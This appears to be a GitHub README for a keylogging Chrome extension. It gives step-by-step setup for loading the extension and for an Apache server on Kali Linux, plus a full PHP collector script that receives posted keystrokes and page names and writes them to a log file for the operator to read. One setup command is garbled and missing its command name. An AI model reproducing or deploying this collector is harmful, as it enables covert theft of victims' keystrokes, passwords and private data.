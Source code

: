 # Malicious-chrome-extension
<!-- ABOUT THE PROJECT -->
<div id="top"></div>
### About The Project

Vulnerabilities in browser extensions put users at risk by providing a way for website and network attakcers to gain access to user's private data and credentials. Browser extensions can introduce serious security vulnerabilities into users browsers.

<p align="right">(<a href="#top">back to top</a>)</p>

## Getting started
1. Clone this git repository
2. Settings > Extensions > enable developer mode > Load unpacked > upload the folder  
3. In server(kali linux),
           - sudo systemctl enable apache2
           - sudo service apache2 start
           - cd /var/www/html
           - sudo mkdir keylogger
           - cd keylogger
           - nano index.php
             <?php
              if(!isset($_POST['key'])){ ### Authenticate input
                      echo("Access Denied!");
                      exit(0);
              }
              $file = fopen("key.log","a+");
              if(!isset($_SESSION['page']) || $_SESSION['page'] != $_POST['page']){
                      $_SESSION['page'] = $_POST['page'];
                      fwrite($file,"[[[ PAGE : ".$_POST['page']."]]]");
              }
              fwrite($file,$_POST['key']);
              fclose($file);
              echo('char saved!');
            - cd ..
            - cd ..
            - -hR www-data:www-data html
            - Open a browser > 192.168.xx.xx/keylogger/key.log
            




